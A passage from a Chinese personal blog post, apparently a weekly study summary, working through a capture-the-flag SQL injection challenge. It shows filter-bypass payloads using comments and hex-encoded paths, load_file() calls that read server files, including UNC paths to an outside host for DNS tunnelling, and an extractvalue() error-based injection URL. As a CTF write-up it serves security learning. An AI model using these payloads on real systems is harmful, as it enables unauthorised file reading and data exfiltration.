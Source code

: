 ```yaml
---
layout: post
title: "第七周总结"
date: 2017-5-17 14:58:44
description: "周总结"
tag: 总结
---
```


## 4.5记录

```
SQL_4 
参数为：?id=访问x
不允许包含“--”，空格，单引号，双引号，“union”
查询文件中包含“”（双引号）里面的内容，需要查询的文件路径为：/var/test/key_1.php
```

查询文件？首先想到的就是mysql里面的load——file()读文件函数

题目上说不能用空格，那么空格就用/**/代替

常见的读文件，可以用16进制代替字符串

```
select load_file('c:/boot.ini')
select load_file(0x633a2f626f6f742e696e69)
select load_file('//ecma.io/1.txt')       # smb协议
select load_file('\\\\ecma.io\\1.txt')    # 可用于DNS隧道
```

然后...就没思路了...（渣...）

把我会的知道的步骤折腾了一遍之后没辙了，乖乖去看表哥们的writeup。。。发现里面不仅用到了load——file()函数，还有extractvalue(),substring()，length()...

百度大法好~


```
*extractvalue(XML_document, XPath_string);  
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串).
作用：从目标XML中返回包含所查询值的字符串
http://blog.csdn.net/airuozhaoyang/article/details/47036923（关于extractvalue()和UpdateXML()函数）
*substring()函数：截取字符串
http://www.111cn.net/database/mysql/mysql-SUBSTRING.htm
*length()函数：返回字符串的长度
```
接下来是后来整理的步骤

判断字符串长度
```
http://103.238.227.13:10088/?id=1/**/and/**/extractvalue(1,concat(0x7e,(select/**/(length(load_file(0x2f7661722f746573742f6b65795f312e706870)))),0x7e)))
得出字符串长度为149
```
（图1）
